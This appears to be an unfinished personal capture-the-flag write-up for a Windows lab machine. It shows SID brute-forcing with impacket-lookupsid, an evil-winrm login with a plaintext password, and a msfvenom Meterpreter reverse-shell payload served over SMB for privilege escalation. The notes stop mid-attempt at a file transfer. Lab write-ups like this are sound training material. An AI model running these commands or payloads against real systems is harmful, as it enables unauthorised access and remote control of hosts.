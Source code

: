 mentions a tool for bruteforcing SID’s with lookupsid.py

- sudo impacket-lookupsid hazard:stealth1agent@10.129.96.157
    
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Brute forcing SIDs at 10.129.96.157
    [*] StringBinding ncacn_np:10.129.96.157[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)
    

I was able to connect with Chase and evil-winrm

## Exploitation

ruby evil-winrm.rb -i 10.129.96.157 -u chase -p 'Q4)sJu\Y8qz*A3?d’

Remember: tree /A /F . 

user flag found

## Privilege Escalation

- todo.txt
    
    Stuff to-do:
    
    1. Keep checking the issues list.
    2. Fix the router config.
    
    Done:
    
    1. Restricted access for guest user.

First of all I want a better shell so I’m going to use msfconsole.

msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.16.173 LPORT=1127 -f exe -o shell.exe

impacket-smbserver -smb2support Share .

wget \\10.10.16.173\Share\shell.exe

exploit/multi/handler listening

I was unable to curl or wget the exe. “This program cannot be run in DOS mode”

Looked up and found a way through powershell 

https://juggernaut-sec.com/windows-file-transfers-for-hackers/

python3 -m http.server 80
